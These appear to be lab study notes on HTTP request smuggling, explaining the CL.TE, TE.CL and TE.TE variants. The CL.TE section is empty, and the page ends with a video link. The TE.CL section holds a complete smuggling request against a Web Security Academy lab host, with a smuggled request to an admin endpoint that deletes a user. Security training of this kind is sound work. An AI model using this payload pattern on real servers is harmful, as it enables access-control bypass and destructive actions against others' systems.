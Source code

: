 # Headers
<b>Content-Length: ? </b> <br>
<b>Transfer-Encoding: chunked </b> <br><br>
*Transfer-Encoding overrides the content-length header

# CL.TE 
the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header. <br>

### Explain CL.TE
```


```

# TE.CL
the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. <br>

```
POST / HTTP/1.1
Host: 0aaf008204ba0912c0851b3c00490041.web-security-academy.net
Cookie: session=eqTNaJFL2vtKPO6k9w4ClcPKcPVmF8IR
Content-Length: 4 -> Disable burp suite auto content-length
Transfer-Encoding: chunked

87 
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```


# TE.TE 
the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way. <br>


[video](https://www.youtube.com/watch?v=XdbSYNhRszE&ab_channel=CyberSecurityTV)
